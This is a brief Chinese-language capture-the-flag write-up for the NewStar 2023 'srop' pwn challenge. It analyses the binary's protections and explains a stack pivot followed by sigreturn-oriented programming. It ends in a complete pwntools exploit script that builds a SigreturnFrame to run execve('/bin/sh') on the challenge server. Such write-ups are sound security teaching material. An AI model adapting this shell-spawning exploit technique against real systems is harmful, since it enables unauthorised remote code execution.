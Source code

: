 ```yaml
---
title: newstar2023 week3 - srop
date: 2023/10/13 12:00:00
tags:
    - srop
excerpt: 利用srop技术通过栈迁移和sigreturn控制程序执行，成功实现execve("/bin/sh")。
---
```


## 文件分析

NX on, PIE off, Canary off, RELRO full  
ghidra分析为64位程序

## 解题思路

思路和上一题类似，先进行栈迁移，方便控制地址，然后srop

这题没有syscall，只有syscall函数，所以要注意rsp+8要可用；并且rdi是rax等

srop可以用pwntools里的工具快速生成，主要是要多次利用sigreturn改变rip，
从而控制程序走向，具体的流程可以在ctf-wiki中学习

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 26073)
elf = ELF('srop')

syscall = elf.plt['syscall'] # here syscall is a libc function
main = elf.symbols['main']
popRdiAddr = 0x401203
retAddr = 0x401144
bssHigh = 0x404800

# payload 1, stack pivot to bss and read again
sh.send(b'0'*0x30 + p64(bssHigh) + p64(0x401171) + b'0'*(0x300-0x40))
sh.recv(0x30) # skip all write content

context.arch = 'amd64'
shellFrame = SigreturnFrame()
shellFrame.rdi = constants.SYS_execve
shellFrame.rsi = bssHigh - 0x30 # /bin/sh addr
shellFrame.rdx = 0
shellFrame.rcx = 0
shellFrame.rsp = bssHigh
shellFrame.rip = syscall

# payload 2, write /bin/sh to bss and invoke sigreturn to do execve
sh.sendline(b'/bin/sh\0' + b'0'*0x30 + p64(popRdiAddr) + p64(15) + p64(syscall) + bytes(shellFrame))
sh.interactive()
```

Done.
